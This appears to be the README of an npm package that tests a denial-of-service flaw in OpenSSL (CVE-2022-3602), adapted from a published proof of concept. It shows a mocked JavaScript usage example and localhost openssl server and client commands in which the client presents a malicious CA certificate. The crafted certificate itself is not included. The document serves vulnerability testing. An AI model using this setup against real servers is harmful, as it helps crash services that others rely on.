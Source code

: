 # OpenSSL Vulnerability PoC

Node.JS functions for testing a Denial-of-Service (DoS) attack on OpenSSL
exploiting [CVE-2022-3602](https://nvd.nist.gov/vuln/detail/CVE-2022-3602).

These functions are adapted from the
[malicious client scenario in DataDog/security-labs-pocs@d25e1ac][1]

[1]: https://github.com/DataDog/security-labs-pocs/tree/d25e1ac3a240489cda949114c732793685a1fae6/proof-of-concept-exploits/openssl-punycode-vulnerability/malicious_client

## Usage

These are currently only mocked functions, so the API may change in the future.

```javascript
import { MorelloPurecapOpenSSLTestCase } from "@nqminds/openssl-vuln-poc";

const res = await MorelloPurecapOpenSSLTestCase.run();
console.log(`Server output error logs were: ${res.server.stderr}`);
```

## Bash scripts to implement in JavaScript

### Server

```bash
openssl s_server -accept 3000 -CAfile certs/cacert.pem -cert certs/server.cert.pem -key certs/server.key.pem  -state -verify 1
```

### Client

```bash
openssl s_client -connect 127.0.0.1:3000 -key certs/client.key.pem  -cert certs/client.cert.pem -CAfile certs/malicious-client-cacert.pem -state
```
